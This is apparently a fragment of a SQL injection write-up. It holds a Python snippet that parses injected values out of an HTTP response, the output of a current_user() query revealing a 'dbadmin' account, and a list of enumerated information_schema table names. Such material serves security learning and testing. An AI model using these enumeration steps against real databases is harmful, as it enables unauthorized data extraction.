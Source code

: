 ```
if field1_pre in r.text:
    f1val=r.text.split(field1_pre)[1].split('\\"')[0]
    f2val=r.text.split(field2_pre)[1].split('\\"')[0]

    print(f1val)
    print(f2val)

```

## current_user()
```
dbadmin@localhost
```

## Table names
| database_name      | table_name                            |
| ------------------ | ------------------------------------- |
| information_schema | ADMINISTRABLE_ROLE_AUTHORIZATIONS     |
| information_schema | APPLICABLE_ROLES                      |
| information_schema | CHARACTER_SETS                        |
| information_schema | CHECK_CONSTRAINTS                     |
| information_schema | COLLATIONS                            |
| information_schema | COLLATION_CHARACTER_SET_APPLICABILITY |
| information_schema | COLUMNS                               |
| information_schema | COLUMNS_EXTENSIONS                    |
| information_schema | COLUMN_PRIVILEGES                     |
| information_schema | COLUMN_STATISTICS                     |
| information_schema | ENABLED_ROLES                         |
| information_schema | ENGINES                               |
| information_schema | EVENTS                                |
| information_schema | FILES                                 |
| information_schema | INNODB_BUFFER_PAGE                    |
| information_schema | INNODB_BUFFER_PAGE_LRU                |
| information_schema | INNODB_BUFFER_POOL_STATS              |
| information_schema | INNODB_CACHED_INDEXES                 |
| information_schema | INNODB_CMP                            |
| information_schema | INNODB_CMPMEM                         |
| information_schema | INNODB_CMPMEM_RESET                   |
| information_schema | INNODB_CMP_PER_INDEX                  |
| information_schema | INNODB_CMP_PER_INDEX_RESET            |
| information_schema | INNODB_CMP_RESET                      |
| information_schema | INNODB_COLUMNS                        |
| information_schema | INNODB_DATAFILES                      |